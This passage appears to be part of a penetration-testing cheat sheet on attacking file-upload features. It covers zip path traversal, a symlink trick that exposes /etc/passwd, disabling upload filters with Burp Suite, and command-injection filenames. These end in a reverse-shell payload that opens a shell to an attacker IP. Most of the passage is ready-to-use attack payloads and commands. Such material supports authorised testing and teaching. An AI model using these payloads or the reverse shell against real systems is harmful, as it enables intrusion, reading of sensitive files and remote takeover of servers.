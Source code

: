 After uploading the zip file, target website (server) will decompress this file and may store the `test.php` file into unexpected directory.

### LFI with Symlinks

In local machine, create a symbolic link for a sensitive file. Then compress the symlink with `zip`.

```bash
ln -s /etc/passwd passwd.txt
zip --symlink test.zip passwd.txt
```

When we upload the zip file to target website, the website decompress the zip file and may display the file of the symbolic link (`/etc/passwd`, etc.). In short, we may be able to see the contents of the sensitive file.

<br /><br />

## Bypass Client/Server Side Filter

If the website uses a filter for validation, we might be able to bypass it by disabling the filter.  
We can easily do that with **Burp Suite Intercept**.  

### OPTION 1: Disable Client-Side (JavaScript) Filter

1. In **Burp Suite**, go to **Proxy** tab and click **Options**.
2. Navigate to **"Intercept Client Requests"** section, then click on the top line (**"File extension"**...) then click **Edit**.
3. The popup will open.
4. In the popup, find and remove **"|^js$"** in **"Match condition"**, then save the filter.

### OPTION 2: Disable Server-Side Filter

1. In **Burp Suite**, go to **Proxy** tab and click **Options**.
2. Navigate to **"Intercept Server Requests"** section and check **"Intercept responses based on..."**.

### Drop Filter

After setting up as above, we might be able to bypass filter by intercepting requests and drop the filter as the following actions.

1. Turn the intercept on.
2. On browser, press Ctrl+F5 (hard refresh) to reload the page.
3. If you found the filtering file (.js), drop it.

<br /><br />

## Malicious Filnames

### Command Injection

```bash
# If the response comes after 10 seconds, the command injection is successful.
test.jpg;sleep 10
test.jpg;sleep+10
test.jpg;sleep 10#
test.jpg;sleep 10%00
test.jpg|sleep 10
;sleep 10 test.jpg

# Reverse Shell
test.jpg;bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```
